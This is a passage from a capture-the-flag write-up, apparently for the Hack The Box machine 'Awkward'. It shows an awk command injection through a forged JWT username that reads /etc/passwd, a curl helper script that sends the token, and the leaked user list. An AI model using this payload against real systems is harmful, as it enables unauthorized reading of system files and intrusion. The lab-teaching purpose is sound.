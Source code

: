 - Our focus will be on:
```js
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv",
```

- Since `decodedToken` is taking in two arguments of `user_token` and `TOKEN_SECRET` we shouldn't have any issues with altering `user_token` which later gets converted into `user`.
- `user` is then used after the `awk` command. 
```js
if(user_token) {
    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if(!decodedToken.username) {
      authFailed = true
    }
    else {
      user = decodedToken.username
```

- Reference the `File read` section on `gtfobins` here:
	- [[https://gtfobins.github.io/gtfobins/awk/]]
- Our username payload:
```bash
"username": "/' /etc/passwd '",
```

- Go to `jwt.io` to customize your `jwt` token.
	- [[jwt.io]]
- It will look like this:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121235243.png)

Here is a convenient bash script that can be used to paste the cookie into then you can choose a path to output the content.
- I named mine `check_token_output.sh`
```bash
echo "Enter cookie: "
read cookie
echo "Outfile name: "
read outfile
curl http://hat-valley.htb/api/all-leave --header "Cookie: token=$cookie" | tee $outfile
```

- The output will look something like this:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121235848.png)

- We find 2 users other than `root`
- `bean`
- `christine`
```bash
cat awkward_etc_passwd.txt | grep /bin/bash

root:x:0:0:root:/root:/bin/bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```
